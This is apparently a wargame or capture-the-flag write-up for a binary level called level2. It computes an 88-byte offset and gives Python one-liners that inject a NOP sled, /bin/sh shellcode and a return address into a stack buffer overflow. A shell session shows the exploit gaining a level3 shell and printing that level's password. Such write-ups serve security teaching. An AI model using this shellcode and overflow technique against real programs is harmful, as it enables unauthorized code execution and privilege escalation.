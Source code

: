 ret pointer offset += 88 off $esp

# not working
noop | payload | noop | addr
30 + 34 + 16 + 8 = 88

addr = 0xbffff6fc

python -c 'print("\x90"*30 + "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68" + "\x90"*16 + "\xfc\xf6\xff\xbf")'


# working hopefully
noop | payload | noop | addr
30 + 21 + 29 + 8

strdup return address = 0x804a008

python -c 'print("\x90"*30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*29 + "\x08\xa0\x04\x08")'


```sh
$> python -c 'print("\x90"*30 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*29 + "\x08\xa0\x04\x08")' > /tmp/payload

$> cat /tmp/payload - | ./level2
$ whoami
level3
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
